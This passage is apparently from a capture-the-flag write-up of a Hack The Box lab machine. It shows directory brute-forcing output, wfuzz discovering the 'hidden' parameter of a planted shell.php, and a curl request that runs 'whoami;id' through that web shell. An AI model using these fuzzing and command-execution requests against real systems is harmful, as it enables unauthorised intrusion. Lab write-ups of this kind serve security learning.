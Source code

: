 + http://sec03.rentahacker.htb/login.php (CODE:200|SIZE:4712)                                    
+ http://sec03.rentahacker.htb/plugin.php (CODE:200|SIZE:4669)                                   
+ http://sec03.rentahacker.htb/search.php (CODE:302|SIZE:0)                                      
+ http://sec03.rentahacker.htb/shell.php (CODE:200|SIZE:0)                                       
+ http://sec03.rentahacker.htb/signup.php (CODE:200|SIZE:4729)                                   
+ http://sec03.rentahacker.htb/view.php (CODE:200|SIZE:4667)                                     
+ http://sec03.rentahacker.htb/wiki.php (CODE:200|SIZE:4667)                                     
                                                                                                 
-----------------
END_TIME: Sun Dec  8 06:58:36 2019
DOWNLOADED: 4612 - FOUND: 9
root@fury-battlestation:~/htb/blog/scavenger#

{% endhighlight %}

`shell.php` caught my attention immediately. I thought that attackers could have used this file to execute commands, but I didn’t know what parameter was used to pass the command. I used wfuzz to discover it:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# wfuzz -c --hl=0 -z file,/usr/share/wordlists/wfuzz/general/big.txt http://sec03.rentahacker.htb/shell.php?FUZZ=ls

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz;s documentation for more information.

libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/shodanp.py Exception, msg=No module named 'shodan'
libraries.FileLoader: CRITICAL __load_py_from_file. Filename: /usr/lib/python3/dist-packages/wfuzz/plugins/payloads/bing.py Exception, msg=No module named 'shodan'
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://sec03.rentahacker.htb/shell.php?FUZZ=ls
Total requests: 3024

===================================================================
ID           Response   Lines    Word     Chars       Payload                         
===================================================================

000001289:   200        225 L    225 W    4907 Ch     "hidden"                        

Total time: 59.38107
Processed Requests: 3024
Filtered Requests: 3023
Requests/sec.: 50.92531

root@fury-battlestation:~/htb/blog/scavenger# 

{% endhighlight %}

When I tried supplying the `hidden` parameter to `shell.php`, the command I provided was executed and the output was returned in plaintext:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/scavenger# curl "http://sec03.rentahacker.htb/shell.php?hidden=whoami;id"
ib01c03
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
root@fury-battlestation:~/htb/blog/scavenger#

{% endhighlight %}
